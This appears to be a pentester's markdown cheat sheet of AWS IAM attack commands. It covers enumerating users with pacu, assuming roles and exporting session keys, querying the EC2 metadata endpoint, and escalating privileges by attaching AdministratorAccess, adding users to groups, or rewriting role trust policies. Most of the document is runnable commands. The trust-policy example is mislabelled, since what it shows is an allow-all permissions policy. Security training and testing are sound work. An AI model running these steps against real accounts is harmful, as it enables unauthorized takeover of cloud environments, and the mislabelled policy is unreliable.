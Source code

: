 ## Create IAM role
`aws iam create-role --role-name a4 --assume-role-policy-document file://assume-role-doc.json`  

## Enumerate users (pacu)
`run iam__enum_users --role-name a4 --account-id <account ID from $aws__enum_account> --word-list /home/kali/names.txt`  

## Assume Role
`aws sts assume-role --role-arn arn:aws:iam::276384657722:role/ad-LoggingRole --role-session-name ad_logging`  
### Export secrets
```
export AWS_ACCESS_KEY_ID=<>
export AWS_SECRET_ACCESS_KEY=<>
export AWS_SESSION_TOKEN=<>
//unset
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
```  
### Confirm assumed role  
`aws sts get-caller-identity`  
### Retrieve attached policies for assumed role  
`aws iam list-attached-role-policies --role-name ad-LoggingRole`  
### From here we can list buckets and their objects with readonlyaccess  

## List policies attached to user  
`aws iam list-attached-user-policies --user-name <user>`  
### Check policy details for the a policy  
`aws iam get-policy --policy-arn arn:aws:iam::aws:policy/<policy>`  
### View policy details for versions  
`aws iam get-policy-version --policy-arn arn:aws:iam::225489834925:policy/Service --version-id v1` 

## List inline policies attached to users  
`aws iam list-user-policies --user-name student`  
### Enum inline policies
`aws iam get-user-policy --user-name student --policy-name <inline policy>`  
`aws iam list-role-policies --role-name Adder`  
`aws iam get-role-policy --role-name Adder --policy-name AddUser`  

## Get Region  
`curl http://169.254.169.254/latest/dynamic/instance-identity/document`  
`aws configure get region`  
`curl -s http://169.254.169.254/latest/meta-data/placement/availability-zone | sed 's/\(.*\)[a-z]/\1/'`  
`ec2-metadata --availability-zone`  

### List Lambda Functions  
 
`aws lambda list-functions --region us-east-1`  

## Abuse `iam:AttachUserPolicy` being present  
`aws iam list-policies | grep 'AdministratorAccess'`  
`aws iam attach-user-policy --user-name student --policy-arn arn:aws:iam::aws:policy/AdministratorAccess`  
`aws iam list-attached-user-policies --user-name student`  
`aws iam attach-group-policy --group-name Printers --policy-arn arn:aws:iam::aws:policy/AdministratorAccess`  
`aws iam list-attached-group-policies --group-name Printers`  

## Abuse `iam:AddUserToGroup` being present
`aws iam add-user-to-group --group-name Printers --user-name student`  
`aws iam list-groups-for-user --user-name student`  

## Abuse `iam:UpdateAssumeRolePolicy` and `sts:AssumeRole permissions` (change the assume role policy document of any existing role to allow them to assume that role)  

`aws iam update-assume-role-policy –role-name role_i_can_assume –policy-document file://path/to/assume/role/policy.json`  

Where the policy looks like the following, which gives the user permission to assume the role:
```
{
"Version": "2012-10-17",
"Statement": [
    {
  "Effect":"Allow",
  "Action":"*",
  "Resource":"*"
    }
  ]
}
```
### Steps are similar for `iam:CreatePolicy` + `attach-role-policy`  
`aws iam create-policy --policy-name escalation_policy --policy-document file://full_policy.json`  
`aws iam attach-role-policy --role-name blog_app_lambda_data --policy-arn arn:aws:iam::928880666574:policy/escalation_policy`  
